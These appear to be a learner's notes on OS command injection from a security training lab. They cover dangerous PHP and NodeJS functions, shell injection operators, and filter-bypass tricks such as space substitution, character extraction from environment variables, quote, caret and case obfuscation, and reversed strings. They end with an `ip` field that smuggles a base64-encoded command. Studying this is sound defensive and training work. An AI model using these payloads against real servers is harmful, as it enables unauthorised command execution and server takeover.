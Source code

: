 Many web applications execute local Operating System commands to perform certain processes. For example, a web application may install a plugin of our choosing by executing an OS command that downloads that plugin, using the plugin name provided. If not properly filtered and sanitized, attackers may be able to inject another command to be executed alongside the originally intended command (i.e., as the plugin name), which allows them to directly execute commands on the back end server and gain control over it. This type of vulnerability is called [command injection](https://owasp.org/www-community/attacks/Command_Injection).

This vulnerability is widespread, as developers may not properly sanitize user input or use weak tests to do so, allowing attackers to bypass any checks or filtering put in place and execute their commands.

For example, the WordPress Plugin `Plainview Activity Monitor 20161228` has a [vulnerability](https://www.exploit-db.com/exploits/45274) that allows attackers to inject their command in the `ip` value, by simply adding `| COMMAND...` after the `ip` value.

#injections #wordpress[[Wordpress]] 

##### PHP
#php
`exec`, `system`, `shell_exec`, `passthru`, or `popen`

`call_user_func_array` - can be vunerable through system PHP function

##### NodeJS
[[js files]] #nodejs
`child_process.exec` or `child_process.spawn` 

#### Operators:
```
%0a - new line
&
&&
|
||
;
```
#### Inline command execution
```bash
`whoami`
```
or
```bash
$(whoami)
```


#encoding
##### Bypass spaces:
* `%09` - tab char
* `${IFS}` - variable of space and tab
* `{ls,-la}` - brace expansion
* Replace space with + or %2b

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

###### Bypass /; blacklisted:
```shell
echo ${PATH:0:1}
/

echo ${LS_COLORS:10:1}
;
```

```powershell
C:\htb> echo %HOMEPATH:~6,-11%
\

$env:HOMEPATH[0]
\

PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>

```


Shifting
```shell
man ascii     # \ is on 92, before it is [ on 91
echo $(tr '!-}' '"-~'<<<[)

\
```

##### Bypass blacklisted commands
linux & win:
```shell
21y4d@htb[/htb]$ w'h'o'am'i

21y4d

21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

only linux:
```bash
w\ho\am\i

who$@ami
```

windows only:
```powershell
C:\htb> who^ami
```

##### Case manipulation
#encoding
```shell
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

Reverse string:
```shell
$(rev<<<'imaohw')
```

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

Automated tools:
https://github.com/Bashfuscator/Bashfuscator
https://github.com/danielbohannon/Invoke-DOSfuscation

base64
```
ip=1.1.1.1%0bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```